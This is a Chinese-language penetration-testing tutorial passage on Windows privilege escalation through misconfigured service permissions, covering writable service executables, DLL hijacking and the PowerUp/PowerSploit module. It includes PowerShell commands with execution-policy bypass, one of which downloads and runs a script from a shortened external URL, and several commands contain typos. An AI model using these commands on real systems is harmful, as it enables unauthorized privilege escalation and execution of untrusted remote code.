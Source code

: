 ​                                                                                                                                                                                                                                                

## 二、windwos操作系统配置错误利用分析与防范

windwos操作系统中，攻击者通常会通过系统内核溢出漏洞来提权，但如果无法利用，就会利用系统中的配置错误来提权。

windwos常见配置错误：

* 管理员凭据配置错误
* 服务器配置错误
* 故意削弱的安全措施
* 用户权限过高等

#### 2.1 系统服务权限配置错误

windwos系统服务文件在操作系统启动时加载和执行，并在后台调用执行文件。因此，如果一个低权限用户对此类系统服务调用的可执行文件拥有写权限，就可以将该文件替换成任意可执行文件，并随着系统服务的启动获得系统权限。

windwos服务是以 system 权限运行的，因此，其文件夹、文件和注册表键值都是受强访问机制保护的。但是，在某些情况下，操作系统中仍然存在一些没有得到有效保护的服务。

系统服务权限配置错误(可写目录漏洞)有如下两种可能：

* 服务未运行：攻击者会使用任意服务替换原来的服务，然后重启服务
* 服务正在运行且无法被终止：这种情况符合绝大多数的漏洞利用场景，攻击者通常会利用 DLL 劫持技术并尝试重启服务来提权。

#### 2.1.1 PowerUp利用

也就是 [**Privrsc**](https://github.com/PowerShellMafia/PowerSploit)

加载脚本

```
Import-Module .\Privesc.psm1
```

获取函数

```
Get-Command -Module Privesc
```

检测全部信息

```
Invoke-AllChecks   # 我的没有

Find-AllVulns     # 检测存在的漏洞
```

命令下执行

```
powershell.exe -exec bypass -Command "&{Import-Moudle .\PowerUp.ps1;Invoke-AllChecks}"
```

远程调用执行

```
powershell.exe -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://dwz.cn/2vkbfP');Invoke-AllChecks}"
```
